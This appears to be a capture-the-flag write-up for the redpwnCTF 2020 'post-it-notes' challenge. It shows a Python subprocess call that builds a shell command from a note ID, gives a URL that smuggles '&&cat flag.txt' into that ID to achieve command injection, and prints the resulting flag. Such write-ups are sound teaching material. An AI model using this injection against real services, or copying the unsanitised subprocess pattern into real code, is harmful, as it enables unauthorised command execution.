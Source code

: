 ```yaml
---
layout: post
title: "post-it-notes"
author: "shreyas-sriram"
---
```


# Challenge
Request smuggling has many meanings. Prove you understand at least one of them at `2020.redpwnc.tf:31957`.

Note: There are a lot of time-wasting things about this challenge. Focus on finding the vulnerability on the backend API and figuring out how to exploit it.

## Files
* [source.zip]({{site.baseurl}}/assets/post-it-notes/source.zip)

# Solution
> Note : This solution is unintended.

* Although the challenge description says **Request smuggling**, the solution provided here uses **command injection**
* In `api/server.py`, there is a **subprocess** to retrieve **notes** using the **\<nid\>**<br/>
``` subprocess.Popen(f"cat 'notes/{nid}' ```
* This can be exploited to read the flag<br/>
` http://2020.redpwnc.tf:31957/notes/<original-note-id>'&&cat%20flag.txt' `<br/>
` flag{y0u_b3tt3r_n0t_m@k3_m3_l0s3_my_pyth0n_d3v_j0b}`

> Note : There are more than one ways to solve a problem.
